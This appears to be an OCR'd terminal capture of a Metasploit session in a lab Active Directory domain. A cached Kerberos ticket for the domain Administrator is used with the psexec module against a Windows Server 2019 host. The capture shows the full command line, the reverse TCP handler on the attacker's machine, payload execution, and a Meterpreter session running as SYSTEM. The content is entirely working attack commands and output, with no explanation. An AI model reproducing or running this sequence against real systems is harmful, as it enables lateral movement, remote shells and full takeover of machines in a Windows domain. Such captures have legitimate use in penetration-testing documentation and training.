 ```
107  192.168.232.110  Administrator@NEWLAB.LOCAL  cifs/VICTIM.newlab.local@NEWLAB.LOCAL        AES256   2025-01-23 19:29:59 +0100  active  /home/n00tmeg/.msf4/loot/20250123192959_default_192.168.232.110_mit.kerberos.cca_335229.bin

msf6 exploit(windows/smb/psexec) > run lhost=192.168.232.3 rhost=192.168.232.111 username=Administrator smb::auth=kerberos smb::rhostname=VICTIM.newlab.local domaincontrollerrhost=192.168.232.110 domain=newlab.local
[*] Started reverse TCP handler on 192.168.232.3:4444
[*] 192.168.232.111:445 - Connecting to the server...
[*] 192.168.232.111:445 - Authenticating to 192.168.232.111:445|newlab.local as user 'Administrator'...
[*] 192.168.232.111:445 - Using cached credential for cifs/VICTIM.newlab.local@NEWLAB.LOCAL Administrator@NEWLAB.LOCAL
[*] 192.168.232.111:445 - Selecting PowerShell target
[*] 192.168.232.111:445 - Executing the payload...
[+] 192.168.232.111:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (177734 bytes) to 192.168.232.111
[*] Meterpreter session 1 opened (192.168.232.3:4444 -> 192.168.232.111:42528) at 2025-01-23 19:35:07 +0100

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : VICTIM
OS              : Windows Server 2019 (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : NEWLAB
Logged On Users : 9
Meterpreter     : x86/windows
```

